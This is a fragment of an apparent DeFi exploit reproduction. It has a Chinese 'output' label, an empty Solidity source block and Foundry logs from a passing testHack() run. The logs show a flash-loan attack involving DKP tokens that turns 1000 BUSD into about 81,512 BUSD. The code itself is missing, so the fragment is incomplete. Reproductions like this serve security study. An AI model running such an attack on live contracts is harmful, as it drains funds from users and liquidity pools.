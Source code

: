 ```solidity

```



输出:

```
[PASS] testHack() (gas: 520036)
Logs:
  BUSD balance at the beginning: 1000.000000000000000000
  BUSD balance of Pair: 259605.445236391899433885
  I will borrow out: 259397.760880202785914337
  DKP balance: 17666.042408805118459861
  BUSD balance at the end: 81512.615981085813934882
```














